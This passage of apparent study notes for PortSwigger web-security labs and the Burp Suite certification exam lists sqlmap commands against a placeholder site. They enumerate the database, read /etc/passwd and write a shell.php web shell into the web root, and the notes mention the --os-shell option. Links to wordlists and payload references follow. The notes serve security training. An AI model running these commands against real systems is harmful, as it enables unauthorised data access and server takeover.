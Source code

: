 Database enumeration:
```sql
sqlmap -u "http://www.example.com/?id=1" --banner --current-user --current-db --is-dba
```

Reading files:
```sql
sqlmap -u "http://www.example.com/?id=1" --file-read "/etc/passwd"
```

Writing files:
```sql
sqlmap -u "http://www.example.com/?id=1" --file-write "shell.php" --file-dest "/var/www/html/shell.php"
```
You could use `--os-shell` to open a shell.

## Wordlists

[SecLists](https://github.com/danielmiessler/SecLists)  
[PortSwigger Auth-Lab-Passwords](https://portswigger.net/web-security/authentication/auth-lab-passwords)  
[PortSwigger Auth-Lab-Usernames](https://portswigger.net/web-security/authentication/auth-lab-usernames)  
[XSS Cheat Sheet](https://portswigger.net/web-security/cross-site-scripting/cheat-sheet)  
[SQLi Cheat Sheet](https://portswigger.net/web-security/sql-injection/cheat-sheet)  


## References
[PortSwigger Academy Labs](https://portswigger.net/web-security/all-labs)  
[PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master)  
[Burp Suite Certified Practitioner Exam Study by botesjuan](https://github.com/botesjuan/Burp-Suite-Certified-Practitioner-Exam-Study/blob/main/README.md)  

